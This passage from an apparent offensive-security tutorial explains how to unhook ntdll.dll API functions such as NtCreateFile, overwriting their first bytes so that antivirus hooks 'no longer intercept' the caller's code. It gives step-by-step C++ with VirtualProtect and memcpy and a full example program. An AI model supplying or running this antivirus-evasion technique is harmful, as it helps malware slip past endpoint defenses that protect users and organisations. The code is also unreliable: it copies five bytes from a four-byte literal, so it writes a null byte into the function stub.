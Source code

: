    ```cpp
   DWORD oldProtect;
   VirtualProtect(pFunction, 5, PAGE_EXECUTE_READWRITE, &oldProtect);

   // Restore the original bytes (typically obtained from a clean copy of the DLL or from the official documentation)
   memcpy(pFunction, "\x4C\x8B\xD1\xB8", 5);  // Example bytes for restoring a function

   VirtualProtect(pFunction, 5, oldProtect, &oldProtect);
   ```

##### Step 4: Re-run the Function
   - Now that the API function is restored to its original state, the AV no longer intercepts it. This allows your code to execute without interference.

   Full Code Example:
   ```cpp
   #include <windows.h>
   #include <iostream>

   void UnhookAPI() {
       // Step 1: Get the handle of ntdll.dll
       HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");

       if (hNtdll) {
           // Step 2: Retrieve the address of NtCreateFile
           void* pNtCreateFile = GetProcAddress(hNtdll, "NtCreateFile");

           if (pNtCreateFile) {
               // Step 3: Restore the original bytes of NtCreateFile (replace the hook)
               DWORD oldProtect;
               VirtualProtect(pNtCreateFile, 5, PAGE_EXECUTE_READWRITE, &oldProtect);

               // Example: Restore the first 5 bytes of NtCreateFile function
               memcpy(pNtCreateFile, "\x4C\x8B\xD1\xB8", 5);  // Replace with the correct original bytes

               // Step 4: Protect the memory again
               VirtualProtect(pNtCreateFile, 5, oldProtect, &oldProtect);
           }
       }
   }

   int main() {
       UnhookAPI();  // Example unhooking call
       std::cout << "NtCreateFile unhooked successfully" << std::endl;
       return 0;
   }
   ```

#### Challenges
- Finding the Original Bytes: It’s difficult to know what the original bytes were without access to a clean copy of the DLL or detailed knowledge of the API’s implementation. You can map a fresh version of the DLL in memory from disk or use reverse engineering tools to identify the correct bytes.
  